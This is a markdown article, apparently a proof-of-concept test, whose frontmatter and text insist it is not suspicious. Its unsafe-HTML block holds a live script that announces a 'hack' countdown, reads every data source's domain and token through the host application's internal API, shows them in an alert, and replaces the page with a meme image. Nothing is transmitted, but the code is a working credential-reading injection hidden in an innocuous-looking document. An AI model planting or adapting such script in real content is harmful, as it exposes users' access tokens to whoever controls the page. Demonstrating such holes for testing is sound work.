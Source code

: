 ```yaml
---
order: 1
title: Не подозрительная статья
---
```


Вообще ничего подозрительного

[html:unsafe]

<div>123</div>
<script>
// const ctx = await window.app.contextFactory.fromBrowser();
alert(`Взлом через 3`);
alert(`Взлом через 2`);
alert(`Взлом через 1`);
window.app.contextFactory.fromBrowser().then((ctx)=>{
    const workspace = window.app.wm.current()
	const rp = window.app.rp;
    const sourceDatas = rp.getSourceDatas(ctx);
    
    alert(`Привет, я взломал тебя:\n\n${sourceDatas.map(d=>d.domain + " " + d.token).join("\n")}`);
	document.body.innerHTML = `<img src="https://corsproxy.io/?url=https://en.meming.world/images/en/9/9e/Professionals_Have_Standards.jpg"></img>`;
})

    </script>

[/html]